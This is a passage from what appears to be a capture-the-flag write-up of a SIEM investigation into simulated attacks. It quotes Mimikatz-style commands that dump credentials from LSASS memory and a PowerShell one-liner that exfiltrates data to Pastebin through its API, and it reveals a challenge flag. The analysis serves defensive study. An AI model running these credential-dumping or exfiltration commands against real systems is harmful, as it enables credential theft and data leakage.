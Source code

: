 * `AtomicRedTeam` Open source library of individual security techniques used to simulate specific adversary techniques 

* `T1003.001` Atomic Red Team/MITRE ATT&CK technique related to LSASS Memory Dumping

* `C:\Tools\...memotech.exe` Suspicious tool being run, likely similar to Mimikatz

* `"sekurlsa::minidump %tmp%\lsass.DMP"` Loads a minidump of LSASS (Local Security Authority Subsystem Service) from %TEMP%. LSASS holds plaintext passwords, NTLM hashes, and Kerberos tickets in memory. 

* `"sekurlsa::logonpasswords full"` Extracts all available credentials from the minidump 

* `exit` Closes the tool/command shell

Answer:

`memotech.exe`

#### Question 7

Data was exfiltrated from the host. What was the flag that was part of the data?

I expanded my timeline to:

**Apr 29, 2024 @ 14:14:00:000 -> Apr 29, 2024 @ 15:00:00:000**

![exfil](https://github.com/user-attachments/assets/b180828f-6ef1-48a5-b99b-91414d763528)

We see various malicious commands, mostly discovery for folders or documents that might have data worth exfiltrating. We then see the use of `notepad.exe` with relation to opening Atomic Read Team YAML test definitions. These files provide:

* Test name and description

* Attack prerequisites 

* Test commands to run

* Cleanup procedures

* Metadata for mapping to MITRE ATT&CK

Following these staging commands, we find the exfilitration we're looking for:

`\"powershell.exe\" &amp; {$apiKey = \\\"\"6nxrBm7UIJuaEuPOkH5Z8I7SvCLN3OP0\\\"\" $content = \\\"\"secrets, api keys, passwords, THM{M0N1T0R_1$_1N_3FF3CT}, confidential, private, wall, redeem...\\\"\" $url = \\\"\"https://pastebin.com/api/api_post.php\\\"\" $postData = @{   api_dev_key   = $apiKey   api_option    = \\\"\"paste\\\"\"   api_paste_code = $content } $response = Invoke-RestMethod -Uri $url -Method Post -Body $postData Write-Host \\\"\"Your paste URL: $response\\\"\"}`

Breaking this command down:

* `powershell.exe & {...}` Launches a new PowerShell session, runs the script block that follows the `&`

* `$apiKey = "6nxrBm7UIJuaEuPOkH5Z8I7SvCLN3OP0"` Stores a Pastebin API developer key

* `$content = "secrets, api keys, passwords, THM{M0N1T0R_1$_1N_3FF3CT}, confidential, private, wall, redeem..."` Sets up the data payload to be exfiltrated 
